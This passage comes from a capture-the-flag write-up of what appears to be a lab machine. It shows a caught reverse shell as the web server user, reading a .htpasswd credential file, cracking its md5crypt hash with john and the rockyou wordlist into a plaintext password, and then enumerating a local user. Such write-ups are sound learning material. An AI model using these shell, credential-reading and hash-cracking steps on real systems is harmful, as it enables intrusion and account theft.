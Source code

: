 ```diff
 listening on [any] 4141 ...
+connect to [10.10.14.47] from (UNKNOWN) [10.10.10.218] 65376
 sh: can't access tty; job control turned off

+$ id
+uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
```

## User Escalation

* inside the `/var/www` dir there is a `.htpasswd` file which contains a user and password hash -
```diff
$ cd /var/www
$ ls -la
+-rw-r--r--   1 root  wheel   47 Sep 16 15:07 .htpasswd
 -rw-r--r--   1 root  wheel  386 Sep 17 20:56 index.html
 -rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
$ cat .htpasswd
+webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

__Hash:__ `webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0`

### john

```diff
❯ echo 'webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0' > hash
❯ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads

+iamthebest       (webapi_user)

Session completed
```

### creds 
`webapi_user:iamthebest`

## Enumeration

* login to port 80 worked but nothing intresting there,
* and login to port 9001 not working.
* home direcotry have a `r.michaels` user directory and r.michaels is a user -

	  r.michaels:*:1000:100::/home/r.michaels:/bin/ksh

* su to user `r.michaels` is not working

	  $ su - r.michaels
	  Inappropriate ioctl for device
	  su: Sorry: Conversation failure
